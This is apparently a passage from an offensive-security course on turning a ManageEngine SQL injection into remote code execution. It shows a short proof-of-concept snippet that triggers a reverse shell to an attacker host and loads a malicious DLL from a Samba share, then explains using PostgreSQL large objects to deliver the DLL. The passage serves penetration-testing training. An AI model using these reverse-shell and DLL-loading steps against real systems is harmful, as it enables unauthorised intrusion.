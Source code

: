 ```
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

> Listing 52 - proof of concept script to trigger a reverse shell

The script assumes that there is an available Samba share on a Kali VM that hosts a file named rev_shell.dll. Make sure that your attacking machine has that set up. Finally you will have to fix the SQL injection string in the above code before running the final script (see the highlighted FIX ME line in Listing 52).

If everything goes well, you should receive a reverse shell like this:

![Figure 25: Obtaining a reverse shell from a vulnerable ManageEngine system](https://static.offsec.com/offsec-courses/WEB-300/images/manageengine_sqli/5e462ec2003ec7b2d69439e0f95700ca-Picture29.png)

Figure 25: Obtaining a reverse shell from a vulnerable ManageEngine system

#### Exercise

Fix the proof of concept from Listing 52 and recreate the attack described in the previous section in order to obtain a reverse shell.

## 3.8. More Shells!!!

While we hopefully managed to get a shell in the last section, we did so by utilizing a network share as the location for our DLL file. However, that can only work if we are already on an internal network. Technically speaking, one could do this on a public network as well, but egress filtering is more than likely to prevent this type of traffic across private network boundaries.

An alternative to the remote Samba extension loading is to find a method to transfer the malicious DLL to the remote server directly through an SQL query. Considering that we already know how to write arbitrary files to the remote file system using the _COPY\ TO_ function, we may be tempted to do just that in our payload. Unfortunately, that will not quite work with binary files.

While we won't go into details as to why that is the case, we strongly encourage you to try it and see where things go wrong.

So, can we figure out a way to replicate the previous attack but this time _without_ the network share requirement? Let's _Try Harder_!

### 3.8.1. PostgreSQL Large Objects

Fortunately for us, PostgreSQL exposes a structure called _large object_, which is used for storing data that would be difficult to handle in its entirety. A typical example of data that can be stored as a large object in PostgreSQL is an image or a PDF document. As opposed to the _COPY\ TO_ function, the advantage of large objects lies in the fact that the data they hold can be exported back to the file system as an identical copy of the original imported file.

We recommend reading more about large objects in the official documentation,[1](https://portal.offsec.com/courses/web-300-687/learning/manageengine-applications-manager-amuserresourcessyncservlet-sql-injection-rce-10582/summary-10600/summary-10856#fn-local_id_190-1) but for now we will focus on those aspects of this structure and related functions that we need to accomplish our goal.

First, let's try to lay out our goal and the general steps we need to take to get there. Keep in mind that all of these steps should be accomplished using our original SQL injection vulnerability.
